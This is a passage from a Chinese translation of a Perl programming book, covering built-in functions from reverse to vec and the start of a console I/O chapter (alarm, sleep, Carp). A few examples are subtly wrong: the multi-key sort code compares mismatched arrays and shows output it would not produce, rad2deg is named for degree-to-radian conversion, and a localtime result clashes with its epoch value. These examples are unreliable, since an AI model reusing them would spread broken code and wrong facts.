"糟糕，"新手程序员说，"我把给大老板准备的潜在收购目标列表按字母顺序排好了。""什么问题？"你问。"嗯，"新手程序员说，"我在 **sort** 例程中把比较搞错了，整个列表变成了*逆向*字母顺序。""没问题，"你说，"用 **reverse** 函数反转列表的顺序。"

**reverse** 函数会反转并返回一个列表；通常这样使用：

```
reverse LIST
```

看这个简短的示例：

```
print join(" ", reverse (1 .. 20));
```

*20 19 18 17 16 15 14 13 12 11 10 9 8 7 6 5 4 3 2 1*

请注意，当你将数组和哈希传递给列表函数时，它们是以列表形式传递的，这意味着你可以像这样对数组使用 **reverse**：

```
@array = (1, 2 ,3);
print join(", ", reverse @array);
```

*3, 2, 1*

事实上，如果你有需要，也可以使用 **reverse** 来反转哈希：

```
$hash{sandwich} = grilled;
$hash{drink} = 'root beer';
%reversed = reverse %hash;
while($key = each(%reversed)) {print "$key => $reversed{$key}\n";}
```

*root beer* => *drink*
*grilled* => *sandwich*

同样地，你也可以使用 **reverse** 函数来反转字符串：

```
$string = "Hello!";
$reversed = reverse($string);
print "$reversed\n";
```

*!olleH*

## rindex 反向索引

**rindex** 函数的工作方式与 **index** 函数相同，区别在于该函数返回的是 **SUBSTR** 在 **STR** 中最后一次——而非第一次——出现的位置：

```
rindex STR, SUBSTR, POSITION
rindex STR, SUBSTR
```

如果你指定了位置，**rindex** 返回在该位置之前（或在该位置上）最后一次出现的指定字符串的位置。如果未找到子字符串，**rindex** 返回 -1（实际上是数组基准值减一，通常为 0）。

以下示例展示了 **index** 和 **rindex** 的实际用法：

```
$text = "I said, no, I just don't know.";
```

```
print "First occurrence of \"no\" is at position: " .
    index($text, "no") . "\n";
print "Last occurrence of \"no\" is at position: " .
    rindex($text, "no") . "\n";
```

*First occurrence of "no" is at position: 8*
*Last occurrence of "no" is at position: 26*

## sin 正弦

新手程序员出现了，说："又是数学问题！""怎么了？"你问。"嗯，"新手程序员说，"我需要计算一个角度的正弦值，但 Perl 没有正弦函数。""嗯，"你说，"你应该试试 **sin**。"新手程序员说："我应该试试 sin？"

**sin** 函数返回表达式的正弦值；如果你没有指定表达式，该函数使用 `$_`。通常这样使用 **sin**：

```
sin EXPR
sin
```

你传递给 **sin** 的角度必须以弧度为单位（一个圆包含 2π 弧度）。要从度数转换为弧度，你可以乘以 π 弧度除以 180 度，或者使用 **Math::Trig** 模块中的 **rad2deg** 函数（参见本章后面的"**Math::Trig** 中的三角函数"主题）。以下示例表明 45 度的正弦值等于根号 2 除以 2：

```
$angle = 45;
$conversion = 3.14159265358979 / 180;
$radians = $angle * $conversion;
print "The sine of $angle degrees = ", sin $radians;
```

> The sine of 45 degrees = 0.707106781186547

要获取反正弦值，可以使用 **POSIX::asin** 函数（参见本章前面的"POSIX 函数"主题）或 **Math::Trig** 模块中的 **asin** 函数（参见本章后面的"**Math::Trig** 中的三角函数"主题），如下例所示：

```
use POSIX;
$angle = 45;
$conversion = 3.14159265358979 / 180;
$radians = $angle * $conversion;
$sine = sin $radians;
print "The sine of $angle degrees = ", $sine, "\n";

The sine of 45 degrees = 0.707106781186547

$asine = POSIX::asin $sine;
$reconversion = 180 / 3.14159265358979;
$degrees = $asine * $reconversion;
print "The arcsine of $sine = ", $degrees, " degrees.";
```

> The arcsine of 0.707106781186547 = 45 degrees.

## sort 排序列表

大老板递给你一张磁盘说："这里是所有员工的记录。你能帮我整理一份公司通讯录吗？""当然，"你说，"没问题。""记录是未排序的，"大老板说。你回答说："这就是 **sort** 函数的用武之地。"

**sort** 函数对列表进行排序并返回排序后的列表：

```
sort SUBNAME LIST
sort BLOCK LIST
sort LIST
```

如果你没有指定 ***SUBNAME*** 或 ***BLOCK***，**sort** 函数会按标准字符串顺序对列表进行排序。如果你指定了子程序，该子程序必须返回一个小于、等于或大于 0 的整数，以表示你希望元素如何排列。你也可以指定一个 ***BLOCK*** 作为内联排序子程序。看看这些示例——注意在需要时你使用变量 **$a** 和 **$b** 来表示要排序的各个值：

```
@array = ('z', 'b', 'a', 'x', 'y', 'c');
print join (", ", @array) . "\n";
```

z, b, a, x, y, c

```
print join(", ", sort {$a cmp $b} @array) . "\n";
```

a, b, c, x, y, z

```
print join(", ", sort {$b cmp $a} @array) . "\n";
```

z, y, x, c, b, a

```
@array = (1, 5, 6, 7, 3, 2);
print join(", ", sort {$a <=> $b} @array) . "\n";
```

1, 2, 3, 5, 6, 7

```
print join(", ", sort {$b <=> $a} @array) . "\n";
```

7, 6, 5, 3, 2, 1

你可以在代码块中使用字符串比较运算符 **cmp**（关于运算符的更多详情请参见第 4 章），如下所示：

```
print sort {$a cmp $b} ("c", "b", "a");
```

abc

你可以这样按降序排序：

```
print sort {$b cmp $a} ("c", "b", "a");
```

*cba*

你还可以设置比较方式来按多个值排序。在这个示例中，我对一个存储零售产品名称的数组按类别和子类别进行排序：

```
@name = qw(curtains towels pants pants);
@category = qw(home home clothing clothing);
@subcategory = qw(bedroom bathroom indoor outdoor);
@indices = sort {$category[$a] cmp $subcategory[$b]
    or $category[$a] cmp $subcategory[$b]} (0 .. $#name);

foreach $index (@indices) {
    print "$category[$index] ($subcategory[$index]): $name[$index]\n";
}
```

*home (bedroom): curtains*
*home (bathroom): towels*
*clothing (outdoor): pants*
*clothing (indoor): pants*

你甚至可以将比较值的代码放入子程序中，如下所示：

```
sub sort_function
{
    return (shift(@_) <=> shift(@_));
}
print join (", ", sort {sort_function($a, $b)} (6, 4, 5));
```

4, 5, 6

从 Perl v5.6.0 开始，如果你给子程序指定 *prototype* **$$**（关于原型的更多内容请参见第 7 章），则不再需要显式使用 **$a** 和 **$b**：

```
sub sort_function($$)
{
    return (shift(@_) <=> shift(@_));
}
print join (", ", sort sort_function (6, 4, 5));
```

4, 5, 6

请注意，对列表进行排序可能很耗时，因此代码优化变得非常重要。关于如何优化排序有各种研究，包括在Perl中进行排序。如果你的排序操作占用大量时间，查阅一些相关论文可能是值得的。例如，看看CPAN。

> **提示：** 排序涉及许多比较操作，如果你的比较子程序包含大量代码，你的处理速度会慢如蜗牛。一个解决方案是先使用 **map** 对数组执行该子程序中的所有计算，创建一个新数组，对该数组进行排序，然后再使用另一个 **map** 还原回原始数组。这种技术被称为 **map-sort-map** 排序。

| 相关解决方案： | 所在页码： |
|---|---|
| **基准测试** 代码执行时间 | 606 |

## split 将字符串分割成字符串数组

我们在第2章中第一次看到了 **split** 函数。我将在这里快速回顾一下 **split**。

**split** 函数将一个字符串分割成一个字符串数组，通常你像这样使用它：

```
split /PATTERN/, EXPR, LIMIT
split /PATTERN/, EXPR
split /PATTERN/
split
```

如果你指定了 **PATTERN**（模式），Perl会将任何匹配该模式的内容作为字符串中字段之间的分隔符。如果你指定了 **LIMIT**（限制），**split** 分割的字段数不会超过该数量。如果你没有指定要分割的 **EXPR**（表达式），**split** 会使用 **$_**。

以下示例展示了 **split** 的用法；在这个例子中，我将单词 **Hello** 分割成字母列表，然后像这样将它们连接成一个字符串：

```
print join('-', split(//, 'Hello'));
```

*H-e-l-l-o*

你也可以按空格等字符进行分割，这非常常见。这里，我从 **split** 返回的列表中提取一个单词：

```
print ((split " ", "Now is the time")[3]);
```

*time*

## sprintf 格式化字符串

技术支持团队又打来电话了。他们说：“你的新程序SuperDuperDataCrunch很棒，但就一件事。” “什么事？”你问。“用户问为什么它打印货币值时会输出到小数点后七位，”技术支持说。“嗯，”你说，“我该怎么解决呢？”

你可以使用 **sprintf** 函数来格式化字符串的字段。我们在第8章中第一次看到了 **sprintf**。为了复习，我在这里简要地过一下 **sprintf**。

**sprintf** 函数格式化一个字符串，插值并格式化一个值列表。通常，你像这样使用 **sprintf**：

```
sprintf FORMAT, LIST
```

这里，**FORMAT**（格式）是一个字符串，它指示你希望如何格式化 **LIST**（列表）中的项目。通常，你为 **LIST** 中的每个元素在 **FORMAT** 中使用一个转换说明符。你可以在 **FORMAT** 中使用以下转换说明符：

- %%—百分号
- %c—给定数字对应的字符
- %d—有符号十进制整数
- %E—科学计数法的浮点数
- %e—类似 %E，但使用小写 e
- %f—定点表示法的浮点数
- %G—使用 %e 或 %f 表示法的浮点数
- %g—类似 %G，但使用小写 g
- %n—下一个变量输出的字符数
- %o—无符号八进制整数
- %p—指针（值的十六进制地址）
- %s—字符串
- %u—无符号十进制整数
- %X—无符号十六进制整数
- %x—类似 %X，但使用小写字母

为了向后兼容，Perl也允许以下转换说明符：

- %D—等同于 %ld
- %F—等同于 %f
- %i—等同于 %d
- %O—等同于 %lo
- %U—等同于 %lu

此外，Perl允许在 % 和转换字母之间使用以下标志：

- - —在字段内左对齐
- #—为非零八进制数添加0前缀，为非零十六进制数添加0x前缀
- .number—设置浮点值的小数点后位数，字符串的最大长度，或整数的最小长度
- + —为正数添加加号前缀
- 0—用零而非空格进行右对齐
- h—将整数解释为C类型的short或unsigned short
- l—将整数解释为C类型的long或unsigned long
- number—设置最小字段宽度
- space—为空格正数添加空格前缀

还有，这个是Perl特有的：

- V—将整数解释为Perl的标准整数类型

现在，看一些例子（注意第一个对其值进行了四舍五入）：

```
$value = 1234.56789;
print sprintf "%.4f\n", $value;
```

*1234.5679*

```
print sprintf "%.5f\n", $value;
```

*1234.56789*

```
print sprintf "%6.6f\n", $value;
```

*1234.567890*

```
print sprintf "%+.4e\n", $value;
```

*+1.2346e+003*

| 相关解决方案： | 所在页码： |
|---|---|
| 字符串处理：使用 **sprintf** 格式化字符串 | 350 |

## sqrt 平方根

新手程序员又遇到了数学问题。“现在，”新手程序员哀叹道，“我需要对一些数字取平方根。” “一点问题都没有，”你说，“使用 **sqrt** 函数。” “哦，”新手程序员说。

**sqrt** 函数返回一个表达式的平方根；如果你省略该表达式，**sqrt** 会使用 **$_**。通常，你像这样使用 **sqrt**：

```
sqrt EXPR
sqrt
```

考虑这个简单的例子：

```
print sqrt 144;
```

*12*

下一个例子让用户输入一个直角三角形的两条边长，并打印斜边的长度：

```
print "Welcome to the Hypotenusizer!\n";
print "Enter two sides of a right triangle: ";
while (<>) {
    ($a, $b) = split;
    $hypotenuse = sqrt($a * $a + $b * $b);
    print "The hypotenuse is: ", $hypotenuse, "\n";
    print "Enter two sides of a right triangle: ";
}
```

```
Welcome to the Hypotenusizer!
Enter two sides of a right triangle: 2 4
The hypotenuse is: 4.47213595499958
Enter two sides of a right triangle: 3 4
The hypotenuse is: 5
Enter two sides of a right triangle: 1 5
The hypotenuse is: 5.09901951359278
Enter two sides of a right triangle:
```

> **提示：** **sqrt** 函数只是一个便捷函数，之所以被添加到Perl和许多其他编程语言中，是因为取平方根非常常见。要不使用 **sqrt** 获取平方根——或任何其他根——你可以使用乘方运算符，**。例如，**sqrt (144)** 等同于 **144 ** 0.5**，而81的四次方根是 **81 ** 0.25**。

## srand 设置随机数种子

“我有个问题，”新手程序员说，“我在使用随机数函数 **rand**，但每次运行程序时，它总是生成相同的数字序列。” “嗯，”你说，“你可以在使用 **rand** 之前调用 **srand** 函数来为随机数生成器设置种子。” “嗯，”新手程序员说，“为什么Perl不自动做这件事呢？” “它会自动做，”你说，“在5.004之后的任何版本中。是时候升级了，新手程序员。”

**srand** 函数为 **rand** 函数设置随机数种子。如果你省略 *EXPR*，**srand** 会使用一个基于当前时间和进程ID的值：

```
srand EXPR
srand
```

这个例子展示了如何使用 **srand**：

```
srand;
$random = rand(100);
print $random;
```

*57.4920654296875*

请注意——正如我在这个主题开始时提到的——对于5.004及之后的版本，Perl会为你自动调用 **srand**。

## substr 获取子字符串

我们在第8章介绍字符串处理时看到了 **substr** 函数。我在这里简要回顾一下 **substr**。

**substr** 函数非常有用，它返回你传递给它的字符串中的一个子字符串：

```
substr EXPR,OFFSET,LEN,REPLACEMENT
substr EXPR,OFFSET,LEN
substr EXPR,OFFSET
```

返回的子字符串的第一个字符位于 *OFFSET*（偏移量）；如果 *OFFSET* 为负数，**substr** 从字符串末尾开始并向前移动。如果你省略 *LEN*（长度），**substr** 返回从偏移量到字符串末尾的所有文本。如果 *LEN* 为负数，**substr** 会从字符串末尾省略该数量的字符。你可以通过在 *REPLACEMENT*（替换）中指定一个字符串来替换子字符串。

以下简短示例展示了如何使用这个非常有用的函数：

```
$text = "Here is the text.";
print substr ($text, 12) . "\n";
```

*text.*

```
print substr ($text, 12, 4) . "\n";
```

*text*

```
substr ($text, 12, 4, "word");
print "$text\n";
```

*Here is the word.*

| 相关解决方案： | 所在页码： |
|---|---|
| 字符串处理：使用 **substr** 获取子字符串 | 345 |

## time 获取自1970年1月1日以来的秒数

新手程序员问：“现在几点了？” “大概中午，”你说。“嗯，”新手程序员说，“那为什么Perl说现在是923587470？” “你一定是用了 **time** 函数，”你说，“它报告自*纪元*（epoch）以来的秒数。” “哇，”新手程序员说，“我怎么把它转换回中午呢？” “使用 **localtime** 函数，”你说。

**time** 函数返回自纪元开始以来的（非闰年）秒数，你像这样使用它：

```
time
```


第11章 内置函数：数据处理

对于大多数 Perl 版本，纪元时间起始于 1970年1月1日 00:00:00 UTC。（请注意，在 Mac OS 上，日期是 1904年1月1日 00:00:00。）如果你直接使用 **time**，可能会看到以下输出：

```
print "Current epoch time in seconds = ", time, "\n";
```

*当前纪元时间（秒）= 923587470*

你可以将该值传递给 **localtime** 函数，以获得更易读的结果：

```
print "Current time = ", scalar localtime(time()), "\n";
```

*当前时间 = Thu Apr  8 12:04:30 2000*

事实上，如果你不向 **localtime** 传递任何值，它将默认使用 **time** 函数返回的时间。

## Math::Trig 中的三角函数

大老板回来了。“我听说，”BB 说，“现在三角函数表有很大的市场。所以，算一些出来，我们卖掉它们。”“但是，”你说，“Perl 本身只支持 **sin**、**cos** 和 **atan2** 函数。”“你得做得更好些，”BB 说完，便消失在一缕雪茄烟雾中。那么，你能做些什么呢？

你可以使用 **sin**、**cos** 和 **atan2** 自己计算许多三角函数；我在表 11.2 中列出了一些可能性。

**表 11.2  计算的三角函数**

| 函数 | 计算方法 |
|---|---|
| 正切 | sin(X) / cos(X) |
| 正割 | 1 / cos(X) |
| 余割 | 1 / sin(X) |
| 余切 | 1 / tan(X) |
| 反正弦 | atan2(X / sqrt(-X * X + 1), 1) |
| 反余弦 | atan2(-X / sqrt(-X * X + 1), 1) + 2 * atan2(1, 1) |
| 双曲正弦 | (exp(X) – exp(-X)) / 2 |
| 双曲余弦 | (exp(X) + exp(-X)) / 2 |
| 双曲正切 | (exp(X) – exp(-X)) / (exp(X) + exp(-X)) |

（续）

**表 11.2  计算的三角函数（续）**

| 函数 | 计算方法 |
|---|---|
| 双曲正割 | 2 / (exp(X) + exp(-X)) |
| 双曲余割 | 2 / (exp(X) − exp(-X)) |
| 双曲余切 | (exp(X) + exp(-X)) / (exp(X) − exp(-X)) |
| 反双曲正弦 | log(X + sqrt(X * X + 1)) |
| 反双曲余弦 | log(X + sqrt(X * X − 1)) |
| 反双曲正切 | log((1 + X) / (1 − X)) / 2 |
| 反双曲正割 | log((sqrt(-X * X + 1) + 1) / X) |
| 反双曲余割 | log((sign(X) * sqrt(X * X + 1) + 1) / X) |
| 反双曲余切 | log((X + 1) / (X − 1)) / 2 |

请注意，你可以在 POSIX 模块中找到许多三角函数。而且，实际上 Perl 附带了 **Math::Trig** 模块，其中包含了许多在 Perl 其他地方找不到的三角函数。你可以在表 11.3 中查看 **Math::Trig** 模块中的三角函数。

**Math::Trig** 模块还包含以下用于度和弧度之间转换的函数：**rad2deg**、**deg2rad**、**grad2deg**、**deg2grad**、**rad2grad** 和 **grad2rad**。

让我展示几个使用 **Math::Trig** 的示例：

```
use Math::Trig;

print "Pi = ", pi, "\n";
```

**表 11.3  Math::Trig 中的三角函数。**

| 函数 | 函数 | 函数 |
|---|---|---|
| acos | asin | cotanh |
| acosec | asinh | coth |
| acosech | atan | csc |
| acosh | atan2 | csch |
| acotan | atanh | sec |
| acotanh | cosec | sech |
| acoth | cosech | sinh |
| acsc | cosh | tanh |
| acsch | cot | |
| asec | cotan | |

```
Pi = 3.14159265358979

print "Pi in degrees = ", rad2deg pi, "\n";

Pi in degrees = 180

print "The tangent of 0 = ", tan(0), "\n";

The tangent of 0 = 0

print "The arccosine of 1 = ", acos(1), "\n";

The arccosine of 1 = 0

print "The arcsine of 1 / sqrt(2) = ", rad2deg(asin(1 / sqrt(2))),
      " degrees\n";

The arcsine of 1 / sqrt(2) = 45 degrees
```

## uc 转换为大写

我们在第 8 章见过 **uc** 函数，但这里我将更正式地介绍它。**uc** 函数返回传递给它的字符串的大写形式；如果你没有向 **uc** 传递字符串，它将使用 **$_**。通常，你这样使用此函数：

```
uc EXPR
uc
```

现在，看这个简短的例子：

```
print uc 'hello!';

HELLO!
```

以下示例使用 **lc** 和 **uc** 将你输入的内容转换为小写和大写：

```
while (<>) {
    print "Here's what you typed lowercased: " . lc . "\n";
    print "Here's what you typed uppercased: " . uc . "\n";
}
```

Perl 永恒！
这是你输入的小写：perl rules!
这是你输入的大写：PERL RULES!

> **提示：** **lc** 函数实际上是 Perl 内部实现双引号字符串中 \L 转义字符的函数，而 **uc** 函数是 Perl 内部实现双引号字符串中 \U 转义字符的函数。如果编译指示 **use locale** 有效，这两个函数都会尊重 **LC_CTYPE** 区域设置。

| 相关解决方案： | 所在页： |
| --- | --- |
| 字符串处理：使用 **lc** 和 **uc** 转换大小写 | 342 |

## ucfirst 首字母大写

“好的，”大老板说，“你负责格式化公司通讯。你可以先将这些句子转换为标题格式。”“好的，”你说，“我会使用 **ucfirst** 函数。”

**ucfirst** 函数返回一个首字母大写的字符串；如果你没有向 **ucfirst** 传递字符串，它将使用 **$_**。通常，你这样使用此函数：

```
ucfirst EXPR
ucfirst
```

现在，看这个简短的例子：

```
print ucfirst "i said yes!";

I said yes!
```

以下示例将一个句子转换为标题格式（所有首字母大写）：

```
$headline = "Government announces tax rebate for Perl programmers!";

foreach (split " ", $headline) {
    print ucfirst, " ";
}

Government Announces Tax Rebate For Perl Programmers!
```

> **提示：** **lcfirst** 函数实际上是 Perl 内部实现双引号字符串中 **\l** 转义字符的函数，而 **ucfirst** 函数是 Perl 内部实现双引号字符串中 **\u** 转义字符的函数。如果编译指示 **use locale** 有效，这两个函数都会尊重 **LC_CTYPE** 区域设置。

| 相关解决方案： | 所在页： |
|---|---|
| 字符串处理：使用 **lcfirst** 和 **ucfirst** 转换首字母大小写 | 343 |

## unpack 从打包字符串中解包值

> “噢哦，”新手程序员说，“现在我真的完蛋了。”“为什么？”你问。“嗯，”新手程序员说，“我有一些 uuencoded 数据，需要解码它。我得申请一些新软件。”“不，你不需要，”你说，“只需使用 **unpack** 函数。”

**unpack** 函数解包你使用 **pack** 函数打包的字符串：

```
unpack TEMPLATE, EXPR
```

这里，*EXPR* 是要解包的字符串，*TEMPLATE* 参数的设置方式与 **pack** 函数相同。以下示例展示了如何解包一个打包的字符串：

```
$string = pack("ccc", 88, 89, 90);

print join(", ", unpack "ccc", $string);

88, 89, 90
```

让我再给你一个例子，其中我将一个使用 **vec** 函数打包的十六进制值（详见本章后面的“**vec** 访问无符号整数向量”）解包成一个由 0 和 1 组成的字符串：

```
vec ($data, 0, 32) = 0x11;
$bitstring = unpack("B*", $data);
print $bitstring;

00000000000000000000000000100001
```

事实上，你可以结合使用 **unpack** 函数和 **pack** 函数将数字转换为二进制：

```
$decimal = 17;
$binary = unpack("B32", pack("N", $decimal));
print $binary;

00000000000000000000000000010001
```

要将二进制数字字符串转换回数字，你只需反转前面的过程，如下所示：

```
$decimal = 17;
$binary = unpack("B32", pack("N", $decimal));
$newdecimal = unpack("N", pack("B32", $binary));
print $newdecimal;

17
```

> **提示：** 你以这种方式转换的字符串必须有 32 位，因此必要时请确保添加前导 0。

想要更多示例？这个怎么样，它用于 uudecode 文件（例如，像它们在 Usenet 上编码的那样）。请注意，以下只是基本代码，仅适用于你已移除所有行，只保留实际 uuencoding 行（即以 *M* 开头的行）的 uuencoded 文件：

```
open INFILEHANDLE, "<data.uue";
open OUTFILEHANDLE, ">data.dat";

binmode OUTFILEHANDLE;   #MS DOS 中必要！
while (defined($line = <INFILEHANDLE>)) {
    print OUTFILEHANDLE unpack('u*', $line);
}

close INFILEHANDLE;
close OUTFILEHANDLE;
```

此示例将 data.uue 解码到一个新文件 data.dat 中。你可以根据需要替换这些文件名，以便针对你自己的用途自定义此示例。

> **提示：** 想要解码 MIME/BASE64 字符串吗？你可以像这样使用 CPAN 的 MIME-tools 包：`use MIME::base64; $line = decode_base64($data);`


## values 获取哈希值

新手程序员问："我知道可以用 **keys** 函数遍历哈希以获取哈希中的键列表。Perl 是否有对应的 **values** 函数来返回哈希中的值列表？" "当然有，"你回答道。

在列表上下文中，**values** 函数返回一个包含哈希中值的列表；在标量上下文中，它返回哈希中值的 *数量*。通常，你可以这样使用 **values**：

```
values HASH
```

你可以使用 **values** 函数遍历哈希，如下所示：

```
$hash{sandwich} = 'ham and cheese';
$hash{drink} = 'diet cola';
foreach $value (values %hash) {
    print "$value\n";
}
```

```
diet cola
ham and cheese
```

| 相关解决方案： | 所在页码： |
|---|---|
| 遍历哈希 | 129 |

## vec 访问无符号整数向量

新手程序员问："救命！我必须逐位访问一个值中的比特。" "没问题，"你回答道，"使用 **vec** 函数。"

**vec** 函数将表达式视为一维数组——称为向量——由无符号整数组成，并返回从指定偏移量开始的位字段的值：

```
vec EXPR, OFFSET, BITFIELD
```

此函数从 **EXPR** 中从 **OFFSET** 开始返回比特；**BITFIELD** 参数指示向量中每个条目保留的比特数（必须是 1 到 32 之间的 2 的幂）。请注意，你也可以将值赋给 **vec** 以填充 **EXPR** 中的位字段。

以下示例展示了如何通过逐位获取十六进制数字的比特来以二进制显示该十六进制数字：

```
$hexdigit = 0xA;

vec ($data, 0, 8) = $hexdigit;
print vec ($data, 3, 1);
print vec ($data, 2, 1);
print vec ($data, 1, 1);
print vec ($data, 0, 1);
```

*1010*

## 第12章

### 内置函数：输入/输出

| 如果你需要以下问题的即时解决方案： | 请参阅页码： |
| --- | --- |
| **alarm** 发送闹钟信号 | 511 |
| 使用 **sleep** 函数 | 512 |
| **carp**、**cluck**、**croak**、**confess** 报告警告和错误 | 513 |
| **chomp** 和 **chop** 移除行尾符 | 514 |
| **Curses** 终端屏幕处理接口 | 516 |
| **die** 以错误状态退出 | 519 |
| **Expect** 控制其他应用程序 | 520 |
| **getc** 获取单个输入字符 | 521 |
| 使用 **HotKey.pm** | 522 |
| 记录错误日志 | 523 |
| **POSIX::Termios** 底层终端接口 | 523 |
| **print** 打印列表数据 | 526 |
| **printf** 打印格式化的列表数据 | 527 |
| 在控制台彩色打印 | 529 |
| 使用尖角操作符读取输入：**< >** | 530 |
| 重定向 **STDIN**、**STDOUT** 和 **STDERR** | 531 |
| 将 **STDOUT** 重定向到文件 | 531 |
| 将 **STDERR** 重定向到 **STDOUT** | 532 |
| 从文件获取 **STDIN** | 532 |
| **Term::Cap** 清屏 | 533 |
| **Term::Cap** 定位光标以显示文本 | 534 |
| **Term::ReadKey** 简单的终端驱动控制 | 535 |
| 读取单个按键 | 536 |
| 检查是否有输入 | 537 |
| 获取屏幕尺寸 | 537 |
| 读取密码 | 537 |
| **ReadKey** 模块 | 537 |
| **Term::ReadLine** 支持命令行编辑 | 541 |
| **warn** 显示警告信息 | 541 |
| **write** 写入格式化的记录 | 542 |

## 深入探讨

在本章中，我将继续研究 Perl 函数，转向 I/O 函数。可以想象，处理输入和输出是 Perl 中的一个巨大主题。Perl I/O 不仅包括如何与控制台交互——读取用户输入并显示程序输出——还包括如何与其他进程和磁盘上的文件交互。所有这些 I/O 操作都通过文件句柄执行。

### 使用 Perl I/O

由于这个主题涵盖的内容非常多，我将把它分成两章。在本章中，我将讨论控制台 I/O——即使用 **STDIN**、**STDOUT** 和 **STDERR** 文件句柄。我将在下一章，第 13 章，专门讨论与文件的交互，例如磁盘上你创建自己文件句柄的那些文件。

在本章中，我们将探讨使用标准 I/O 的多种方式，包括如何通过移动光标与终端交互、将输出重定向到文件、记录错误日志、将输入重定向到文件、一次读取单个字符（而不是整行）、重新定义按键、使用 **printf** 打印格式化文本，以及使用许多我们之前未见过的文本 I/O 函数，如 **warn**、**croak**、**carp** 和 **confess**。

以下示例说明了我们将在本章看到的 I/O 处理方式；此示例使用 **getc** 函数从 **STDIN** 读取单个字符，而不是整行：

```
system "stty cbreak </dev/tty >&1";
print ">";
while (($char = getc) ne 'q') {
    print "\n";
    print "You typed $char\n>";
}
```

当你运行此示例时，代码会显示一个提示符 >，当你输入一个字符时，代码会立即显示你输入的字符，而无需等待你按回车键完成整行输入：

```
%perl immediate.pl
>x
You typed x
>y
You typed y
>z
You typed z
```

这段代码也明确了一个关于本章的重要观点：此处的大部分代码是且必须是系统相关的。例如，在 MS-DOS 中无法逐字符读取输入（而不是逐行）。因此，在 MS-DOS 中，前面的示例会等待你按下回车键，*然后* 才会从 **STDIN** 逐个读取字符。就 **getc** 而言，它做的是正确的事——从 **STDIN** 逐个读取字符——只是在 MS-DOS 系统上，这些字符在你按下回车键之前无法从 **STDIN** 获取。然而，在大多数 Unix 系统上，你可以在控制台级别关闭字符缓冲，这样每个字符都会立即传递给代码。在此示例中，这行代码在 Unix 中使用 **system** 调用关闭了缓冲（有关 **system** 函数的更多详细信息，请参阅 CD-ROM 上的第 *e1* 章）：

```
system "stty cbreak </dev/tty >&1";
```

然而，你不能在 MS-DOS 中进行此调用。如你所见，本章中的一些 I/O 内容将是系统相关的。我会确保指明哪些可以在哪里使用。

好了，就是这样——是时候转向即时解决方案了。

### 即时解决方案

## alarm 发送闹钟信号

"天哪，"新手程序员说，"人们正在通过网络使用我的脚本，有时响应非常慢，看起来就像程序卡住了。" "你可以处理这种情况，"你回答道，"只需使用 **alarm** 函数设置超时。" 新手问："超时？" "当然，"你说，"一个操作在被中止之前可以花费的最大时间长度。"

**alarm** 函数在设定的秒数后向你的进程发送一个信号，你可以使用该信号在操作耗时过长时停止它。通常，你可以这样使用 **alarm**：

```
alarm SECONDS
alarm
```

如果你没有指定秒数，**alarm** 会使用 **$_** 中的值。请注意，MS-DOS 不支持信号，因此也不支持 **alarm**。

> **提示：** 在某些系统上，由于秒数的计数方式，经过的时间可能比你指定的时间少一秒。如果你想指定小于一秒的时间，请使用 Perl 的 **syscall** 函数访问系统的 **setitimer**（如果您的系统支持的话——仅在 Unix 下支持）。

现在，考虑这个例子；在这个例子中，我将让用户输入字符，但如果他或她在五秒内没有输入字符，代码将超时并显示消息"抱歉，超时了。"我首先向用户显示一个提示，并将一个匿名子程序连接到 **%SIG** 哈希的 **ALRM** 信号，以显示消息并退出（回想一下第10章，**%SIG** 存储了信号处理子程序的引用）：

```
print "Type something...\n";
local $SIG{ALRM} = sub { print "Sorry, timed out.\n"; exit; };
```

你不必将子程序连接到 **ALRM** 信号；如果你不连接，当时间到了，默认的闹钟处理程序将终止你的脚本，并在控制台上显示消息"Alarm clock"。


[content]
在这个示例中，我将报警信号设置为五秒后触发，等待用户输入内容，回显输入内容，然后重置报警，如下所示：

```
print "Type something...\n";
local $SIG{ALRM} = sub { print "Sorry, timed out.\n"; exit; };
alarm(5);
while(<>) {
    print "Thanks, please type again...\n";
    alarm(5);
}
```

如果用户没有输入任何内容，报警信号就不会被重置，当报警信号发送时，脚本就会终止。你可以这样使用这个脚本；请注意它最终会超时：

```
%perl impatient.pl

Type something...
Hi
Thanks, please type again...
Hello
Thanks, please type again...
Greetings...
Thanks, please type again...
Sorry, timed out.
```

让我补充一个重要的说明：如果你想使用 **alarm** 对系统调用进行超时控制，你应该将代码放在 **eval** 语句中，因为在某些系统中，Perl 会设置自动信号处理程序来重启系统调用。你可以通过将代码放在 **eval** 语句中来避免这些自动重启。

*提示：你可能还想看看 CPAN 上更强大的* ***Sys::AlarmCall*** *模块。*

| 相关解决方案： | 查见页码： |
|---|---|
| %SIG 信号处理程序 | 457 |

## 使用 **sleep** 函数

**alarm** 函数与 **sleep** 函数非常接近，所以我在这里也会提到 **sleep**。（事实上，**sleep** 通常就是用 **alarm** 函数实现的。）你使用 **sleep** 使进程暂停指定的秒数，如果不指定秒数则会永远暂停。（你可以通过发送该进程处理的信号来唤醒一个永久休眠的进程。）一般来说，**sleep** 的用法如下：

```
sleep SECONDS
sleep
```

下面这个（相当催眠的）示例只是休眠 10 秒然后退出：

```
sleep 10;
```

> 提示：你不应该混用 **alarm** 和 **sleep** 调用，因为如前所述，**sleep** 通常是使用 **alarm** 实现的。

## carp、cluck、croak、confess 报告警告和错误

"糟糕，"新手程序员说，"我在代码中放了很多 **warn** 语句，但当我看到警告时，我不知道实际上是哪个 **warn** 语句被执行了。" "这很简单，"你说，"改用 **Carp** 模块就好了。"

**warn** 和 **die** 语句在报告问题时只报告当前代码行号。然而，**Carp** 语句的构建目的是让你编写的模块子程序能更像内置函数那样工作，它会报告调用该子程序的行。换句话说，使用你的模块子程序的程序员会看到他们调用这些子程序的行，而不是你子程序内部某个对他们来说意义不大的行号。

**Carp** 语句如下：

- **carp** —— 警告一个错误
- **cluck** —— 带堆栈回溯的错误警告（默认不导出）
- **croak** —— 因错误而终止
- **confess** —— 带堆栈回溯的因错误终止

以下示例展示了这些语句的使用：

```
use Carp;
carp "This is a warning!";    #print warning

This is a warning! at buggy.pl line 2

croak "This is an error!";    #die with error message

This is an error! at buggy.pl line 3
```

下面的示例展示了 **confess** 在子程序中被调用时如何显示堆栈回溯：

```
use Carp;
sub callme
{
    confess "There's a problem!";
}
callme;
```

> *There's a problem! at caller.pl line 5*

> *main::callme() called at caller.pl line 8*

请注意，回溯信息从调用者的角度标识了错误，它给出了 **callme** 子程序被调用的代码行号——这是 **warn** 和 **die** 做不到的。另请参阅本章后面的主题"**die** 退出并报错"和"**warn** 显示警告"。

## chomp 和 chop 移除行尾字符

